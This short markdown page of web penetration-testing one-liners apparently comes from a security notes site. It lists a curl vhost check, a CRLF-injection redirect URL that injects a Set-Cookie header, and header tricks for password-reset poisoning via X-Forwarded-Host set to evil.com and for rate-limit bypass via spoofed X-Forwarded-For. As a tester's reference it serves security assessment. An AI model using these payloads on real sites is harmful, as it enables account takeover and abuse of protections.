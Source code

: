 ```yaml
---
title: "Web Penetration Testing Oneliners"
---
```


{{< table_of_contents >}}

**Check if `vhost` is a live on specific DNS or subdomain:**

```
curl -s -H "Host. $SUBDOMAIN.EXAMPLE.BA" http://example.ba
```

Other techniques described in [vhost enumeration](./vhost-enumeration)

**Redirect URI with a Set-Cookie in GET request:**

```
http://$EXAMPLE.BA/index.php?redirect_url=/%3f%0d%0a%09set-cookie:+hello=yoyoo
```

**Rate Limit Bypass**

```
Headers:
    * X-Forwarded-Host: http://evil.com (Password reset poisoning)
    * X-Forwarded-For: 127.0.0.* (Rate Limit Bypass)
Permutations:
    * Null byte techniques
    * Case sensitiveness
```

**Captcha Bypass Tricks** :joy:

[Captcha Bypass](./captcha-bypass-tricks) is described in separate page.

### Also See

* Checklists are provided for both [REST API Issue Library](./api-penetration-test-checklist) as well as [Web Issue
Library](./web-application-penetration-test-checklist)
* [API Abuse and Reuse](./classical-api-abuse)
